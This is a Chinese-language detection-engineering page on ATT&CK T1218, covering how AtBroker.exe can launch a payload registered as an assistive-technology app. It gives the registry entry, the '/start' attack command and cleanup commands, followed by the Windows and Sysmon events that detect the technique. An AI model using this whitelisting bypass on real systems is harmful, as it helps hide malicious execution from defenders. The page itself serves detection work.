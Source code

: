 # T1218-Win-使用Atbroker.exe执行payload（白名单）

## 描述

攻击者可能利用受信任的Windows实用程序（如`AtBroker.exe`）代理执行恶意代码，绕过应用程序白名单防御（MITRE ATT&CK T1218）。`AtBroker.exe`是Windows的“轻松访问中心”组件，用于启动辅助功能应用程序（如讲述人、屏幕键盘、放大镜）。由于其由微软签名并位于系统目录，通常被安全工具视为可信进程。

攻击者可通过修改注册表中的辅助技术（Assistive Technology, AT）服务条目，注册恶意程序作为AT应用，随后使用`AtBroker.exe /start <malware>`触发执行。此技术利用`AtBroker.exe`的白名单特性，隐藏恶意行为，常用于防御规避、初始访问或持久化。

## 测试案例

### 测试1：使用AtBroker.exe执行恶意载荷

攻击者通过修改注册表注册恶意程序为AT应用，随后使用`AtBroker.exe`执行，模拟恶意载荷运行。

**环境要求**：
- 系统：Windows 8/8.1/10/11
- 工具：`AtBroker.exe`（系统自带）
- 权限：用户权限（注册表修改可能需管理员权限）
- 路径：
  - `C:\Windows\System32\AtBroker.exe`
  - `C:\Windows\SysWOW64\AtBroker.exe`

**准备步骤**：
1. 创建恶意可执行文件（如`malware.exe`），放置于可访问路径（如`C:\Temp\malware.exe`）。
2. 修改注册表，注册`malware.exe`为AT应用：
   ```reg
   [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Accessibility\ATs\malware]
   "ATExe"="C:\\Temp\\malware.exe"
   "Description"="Malicious AT Application"
   "StartParams"=""
   ```

**攻击命令**：
```cmd
AtBroker.exe /start malware
```

**清理命令**：
```cmd
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Accessibility\ATs\malware" /f
del C:\Temp\malware.exe
taskkill /IM malware.exe /F
```

**说明**：
- `/start malware`：触发注册表中`malware`键对应的可执行文件。
- 注册表修改定义了名为`malware`的AT应用，指向`C:\Temp\malware.exe`。

## 检测日志

- **Windows安全日志**：
  - Event ID 4688：进程创建，记录`AtBroker.exe`及其子进程的执行（需启用进程跟踪审核）。
- **Sysmon日志**：
  - Event ID 1：进程创建，捕获`AtBroker.exe`和恶意载荷的命令行及父进程信息。
  - Event ID 13：注册表修改，记录AT注册表键的创建或更改。
- **日志配置**：
  - 启用命令行审计：`本地计算机策略 > 计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。
  - 部署Sysmon，配置捕获进程创建和注册表事件。
